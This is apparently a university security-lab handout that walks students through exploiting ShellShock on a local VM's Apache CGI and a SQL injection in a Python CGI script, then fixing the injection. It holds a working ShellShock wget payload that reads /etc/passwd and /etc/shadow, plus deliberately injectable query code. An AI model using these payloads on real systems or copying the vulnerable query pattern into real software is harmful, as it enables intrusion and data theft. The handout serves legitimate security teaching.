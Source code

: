 
* HTTPd server vulnerabilities

This time we are going to look at some of vulnerabilities of Web servers. In both cases, they are software errors. But each of them is very different.


* Get the virtualbox VM.

For this lab you will run a virtual box virtual machine that you can fully configure as superuser. I have prepared one for you.

Each of the lab machines has a directory =/seng/seng360/=. In it create a directory with your username, and inside a directory called =vm=. For example, for me
it will be called =/seng/seng360/dmg/vm=.

1. Download the VM (the instructor will tell you where from. Uncompress/untar it and place it under the =vm= directory you just created.
2. Run virtual box with the command =virtualbox=
3. At this point no virtual box is setup up. Go to /File,Preferences/ and in the /General/ section change the /Default Machine Folder/ to point to the directory
   you created above (in my case =/seng/seng360/dmg/vm=). Leave everything else the same.
4. Now add the virtualbox: Using the menu option /Machine, Add/ select the virtualbox inside the =/seng/seng360/<user>/vm/seng360bare= directory.
5. At this point you main screen should be something like this:

[[file:vmBare.png]]
  

* Configure the virtual machine

Make sure that the following ports are been forwared in the your virtual machine. See:

http://stackoverflow.com/questions/5906441/how-to-ssh-to-a-virtualbox-guest-externally-through-a-host)

| Name | Protocol | Host Port | Guest IP | Guest Port |
|------+----------+-----------+----------+------------|
| HTTP | TCP      | 3080      |          | 80         |
| SSH  | TCP      | 3030      |          | 22         |


* Start your virtual machine

Once you run the virtual machine you should be able to SSH to the virtual machine using port 3080 in the localmachine, and the webserver will be running in port 3080
You can test port 3080 by going to http://localhost:3080

To test if ssh is working do:

#+BEGIN_SRC
ssh -p 3030 -l user360 localhost
#+END_SRC

To become root in the virtual machine you will need to use (use the root password provided). 

#+BEGIN_SRC
su 
#+END_SRC


* Login to the virtual box and change the passwords

| what      | user    | password   |
|-----------+---------+------------|
| user      | user360 | user360    |
|           | root    | root360lab |

* the ShellShock bug

Go to CERT Coordination Center (cert.org)

*Question 1* What is the purpose of the CERT Coordination Center?

*Question 2* What is a CVE?

*Question 3* What are the CVEs that relate to the ShellShock bug?

Find and read Vulnerability Note VU#252743. This note will point you to a RedHat blog where the bug is described.

*Question 4* What are the tests for the vulnerabilities in each of the main two CVEs?

* Test the vulnerability

Given your answer to *Question 4*, check if =bash= is vulnerable (it is).

* Exploiting the vulnerability

** Web server

Your virtual machine is already running Apache on port 80 (port 3080 for this host machine). Apache configuration files are located at =/etc/apache2=

** Enable cgi

Enable the cgi module using:

#+begin_example
a2enmod cgi
#+end_example

restart the apache server.

#+begin_example
server apache restart
#+end_example


** Create a script to test cgi

Create a simple "hello world" script in whichever language you choose. Test it. Call this script =test.cgi=. Place it such that http://localhost/cgi-bin/test.cgi (if you are in the VM)
or http://localhost:3080/cgi-bin/test.cgi (from the host machine) to test it.

If necessary, you can inspect the access/error logs of apache. They are located at =/var/log/apache2=

** Create a bash script

Now that you can run cgi scripts, make a bash script called =test.bash=

#+begin_src bash
#!/bin/bash
echo "Content-type: text/plain"
echo
echo
echo "Hello world"
whoami
echo "End of the world"
#+end_src

Test it.

*Question 5* What user is the one executing the scripts? (see the output of whoami above). Why does apache use that user?

** /etc/passwd and /etc/shadow

read the man page of shadow (man shadow). Inspect the files /etc/passwd and /etc/shadow

 *Question 6* Why does Linux maintain =/etc/shawdow=?

 *Question 7* what is the difference between =/etc/passwd= and =/etc/shadow=

** The attack

Now we can try the attack. Using =wget= run:

#+begin_src bash
wget -O /tmp/output.txt -U "() { test;};echo \"Content-type: text/plain\"; echo; echo; /bin/cat /etc/passwd" http://localhost:3080/cgi-bin/test.bash
#+end_src

Test it. What do you get?

*Question 8* Given your knowledge of the vulnerability, explain how the attack works.

** Try again

#+begin_src bash
wget -O /tmp/output.txt -U "() { test;};echo \"Content-type: text/plain\"; echo; echo; /bin/cat /etc/shadow" http://localhost:3080/cgi-bin/test.bash
#+end_src

*Question 9* Explain why this attack didn't work.

*Question 10* What is the vulnerability in the /etc/password attack?


** How the attack is passed to bash

Try the same attack on this script. It simply prints the environment variables that are passed to the script.

#+begin_src perl
#!/usr/bin/perl
print "Content-type: text/html\n\n";
foreach $key (keys %ENV) {
print "$key --> $ENV{$key}<br>";
}
#+end_src

*Question 11* In which environment variable passed to the script?

Modify your script attack to try other commands. Try to execute, for example =ls -lR /etc= or =ls -lR /home/=

* Set up a database

Your user =seng360= has a postgres database called =lab5=. Using psql connect to it. Create a table called =test= with the following schema.  

#+begin_src sql
create table test(
   id integer primary key,
   value integer);
#+end_src

Allow anybody =select= to the table =test=:

#+begin_src sql
grant select on test to public;
#+end_src


Insert 10 tuples into the table =test=. The table should looks something like this. Make sure you include a tuple with /id=5/

#+begin_example
lab5=# select * from test ;
 id | value
----+-------
  1 |    10
  2 |    20
  3 |    30
  4 |    40
  5 |    30
  6 |    40
  7 |    30
  8 |    40
  9 |  1030
 10 |  1040
(10 rows)
#+end_example

Create a user called =web= with password =webserver=. See http://www.postgresql.org/docs/9.1/static/app-createuser.html

You will need to do it as user postgres. Do the following (as root):

#+begin_example
su postgres
cd
createuser -P web
#+end_example

Test that the user =web= can connect to the database and see the table

#+begin_example
psql -h localhost -U web lab6
#+end_example

* Python and sql

Use the following python script. It should be able to display the tuple with id value equal 5 (make sure there is one in your table).

#+begin_src python
#!/usr/bin/python

import psycopg2

try:
    conn = psycopg2.connect("dbname='lab5' user='web' host='localhost' password=
'webserver'")
except:
    print "I am unable to connect to the database"

cur = conn.cursor()

id = "5"

try:
    cur.execute("""SELECT * from test where id = """ + id)

except:
    print "I can't SELECT from test"


rows = cur.fetchall()
print "<h2>Data</h2>"
print "<table border=1>"
for row in rows:
    print "<tr><td>", row[0], '</td><td>', row[1], '</td></tr>'

print "</table>"

#+end_src

** Create a cgi-script

Convert this program into a cgi-script that uses POST method to set the value of =id=. It respond to this request:

See http://www.tutorialspoint.com/python/python_cgi_programming.htm for information on how to do this.

#+begin_example
http://localhost/cgi-bin/sql.py?id=5
#+end_example

** An injection attack

Try now the following URL:

#+begin_example
http://localhost/cgi-bin/sql.py?id=5%20or%20TRUE
#+end_example

*Question 12* What is the result of this query?
*Question 13* Why? (hint, decode the =%20= (it is a character in hexadecimal) then follow the value of id.

** Fix your script

Learn how to protect your script. Hint: lookup /prepared statements/ in Psycogp2

*Question 14* How is the sql injection vulnerability removed?

* What to submit

- Submit your answers to the questions above in a simple text file.
- Submit your python program where you fix the SQL vulnerability

